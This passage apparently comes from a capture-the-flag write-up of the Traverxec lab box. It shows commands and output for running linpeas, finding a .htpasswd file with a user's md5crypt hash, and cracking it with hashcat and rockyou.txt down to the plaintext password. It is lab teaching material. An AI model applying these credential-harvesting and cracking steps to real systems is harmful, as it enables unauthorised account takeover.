 ```shell
www-data@traverxec:/dev/shm$ ./linpeas.sh
```

## .htpasswd

One of the things that it found out was a .htpasswd file:

```shell
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

## Crack .htpasswd

We need to find the the module that we will need to use for hashcat for recognize the hash, based on the output we can see that the hash type is md5crypt and its mode number is `500`:
```shell
❯ cat hash.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: hash.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ hashcat --example-hashes | grep '\$1\$' -B 2

MODE: 500
TYPE: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
HASH: $1$38652870$DUjsu4TTlTsOe/xxZ05uf/
--
MODE: 12200
TYPE: eCryptfs
HASH: $ecryptfs$0$1$4207883745556753$567daa975114206c
--
MODE: 16700
TYPE: FileVault 2
HASH: $fvde$1$16$84286044060108438487434858307513$20000$f1620ab93192112f0a23eea89b5d4df065661f974b704191
--
MODE: 22100
TYPE: BitLocker
HASH: $bitlocker$1$16$6f972989ddc209f1eccf07313a7266a2$1048576$12$3a33a8eaff5e6f81d907b591$60$316b0f6d4cb445fb056f0e3e0633c413526ff4481bbf588917b70a4e8f8075f5ceb45958a800b42cb7ff9b7f5e1
7c6145bf8561ea86f52d3592059fb
```

Now that we know the module, we can attempt to crack the hash: 
```shell
❯ find / -name 'hashcat.potfile' 2>/dev/null
/home/wixnic/.hashcat/hashcat.potfile
❯ echo '' > ~/.hashcat/hashcat.potfile
❯ hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt --username --force                                                   
...<SNIP>...
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
...<SNIP>...
```
